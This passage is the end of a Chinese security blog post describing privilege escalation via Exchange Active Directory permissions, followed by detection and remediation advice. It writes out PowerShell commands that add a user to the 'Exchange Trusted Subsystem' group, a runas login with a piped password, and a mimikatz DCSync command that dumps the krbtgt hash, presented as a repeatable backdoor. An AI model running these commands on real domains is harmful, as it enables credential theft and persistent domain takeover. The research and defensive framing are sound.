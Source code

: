 #### 2.将用户testb添加到Exchange Trusted Subsystem

由于用户testb有对`Exchange Trusted Subsystem`的完全访问权限，所以能够将自己添加到`Exchange Trusted Subsystem`组中

Powershell命令如下：

```
import-module .\Microsoft.ActiveDirectory.Management.dll
Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members testb
```

#### 3.重新登录用户testb

cmd：

```
echo 123456789 | runas /user:test\testb cmd
```

#### 4.使用mimikatz的DCSync功能导出用户krbtgt的hash

cmd：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:krbtgt /csv" exit
```

#### 5.将用户testb从Exchange Trusted Subsystem组中移除

Powershell命令如下：

```
import-module .\Microsoft.ActiveDirectory.Management.dll
Remove-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members testb -confirm:$false
```

由于用户testb具有对`Exchange Trusted Subsystem`的完全访问权限，所以能够反复将自己添加或是移除`Exchange Trusted Subsystem`

## 0x04 检测和防御建议
---

从根源上修复：去除`Exchange Windows Permissions`的WriteDACL权限

可供参考的脚本：

https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/Fix-DomainObjectDACL.ps1

日志检测：

需要开启Active Directory的高级安全审核策略，当域对象的ACL被修改后，将产生ID为5136的日志

参考资料：

https://blogs.technet.microsoft.com/canitpro/2017/03/29/step-by-step-enabling-advanced-security-audit-policy-via-ds-access/

## 0x05 小结
---

本文记录了使用Exchange中特定ACL进行提权的过程，分析了利用条件，结合这个机制介绍了一个提权后门的利用方法，最后给出检测和防御建议。



---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)






